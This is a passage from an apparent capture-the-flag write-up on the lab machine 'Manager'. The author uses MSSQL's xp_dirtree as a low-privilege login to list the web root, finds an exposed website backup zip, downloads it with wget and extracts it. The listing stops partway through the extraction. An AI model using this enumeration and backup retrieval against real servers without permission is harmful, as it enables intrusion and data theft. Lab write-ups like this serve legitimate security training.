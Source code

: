 
#### Filesystem

The only interesting directory in `C:\Users` is `Raven`, and it is
unaccessible. In the web root, I’ll confirm that this is a static HTML site:

    
    
    SQL (MANAGER\Operator  guest@master)> xp_dirtree C:\inetpub\wwwroot
    subdirectory                      depth   file   
    -------------------------------   -----   ----   
    about.html                            1      1
    contact.html                          1      1   
    css                                   1      0   
    images                                1      0   
    index.html                            1      1   
    js                                    1      0   
    service.html                          1      1   
    web.config                            1      1   
    website-backup-27-07-23-old.zip       1      1   
    

There’s also a backup zip!

#### Backup Archive

I’ll grab the archive from the webserver:

    
    
    oxdf@hacky$ wget http://manager.htb/website-backup-27-07-23-old.zip
    --2024-03-13 08:58:58--  http://manager.htb/website-backup-27-07-23-old.zip
    Resolving manager.htb (manager.htb)... 10.10.11.236
    Connecting to manager.htb (manager.htb)|10.10.11.236|:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 1045328 (1021K) [application/x-zip-compressed]
    Saving to: ‘website-backup-27-07-23-old.zip’
    
    website-backup-27-07-2 100%[==========================>]   1021K  1.50MB/s    in 0.7s    
    
    2024-03-13 08:58:59 (1.50 MB/s) - ‘website-backup-27-07-23-old.zip’ saved [1045328/1045328]
    

And extract it:

    
    
    oxdf@hacky$ unzip website-backup-27-07-23-old.zip -d webbackup/
    Archive:  website-backup-27-07-23-old.zip
      inflating: webbackup/.old-conf.xml  
      inflating: webbackup/about.html    
      inflating: webbackup/contact.html  
      inflating: webbackup/css/bootstrap.css  
      inflating: webbackup/css/responsive.css  
      inflating: webbackup/css/style.css  
      inflating: webbackup/css/style.css.map  
      inflating: webbackup/css/style.scss  
      inflating: webbackup/images/about-img.png  
      inflating: webbackup/images/body_bg.jpg  
     extracting: webbackup/images/call.png  
     extracting: webbackup/images/call-o.png  
      inflating: webbackup/images/client.jpg  
      inflating: webbackup/images/contact-img.jpg  
     extracting: webbackup/images/envelope.png  
     extracting: webbackup/images/envelope-o.png  
      inflating: webbackup/images/hero-bg.jpg  
     extracting: webbackup/images/location.png  
     extracting: webbackup/images/location-o.png  
     extracting: webbackup/images/logo.png  
      inflating: webbackup/images/menu.png  
     extracting: webbackup/images/next.png  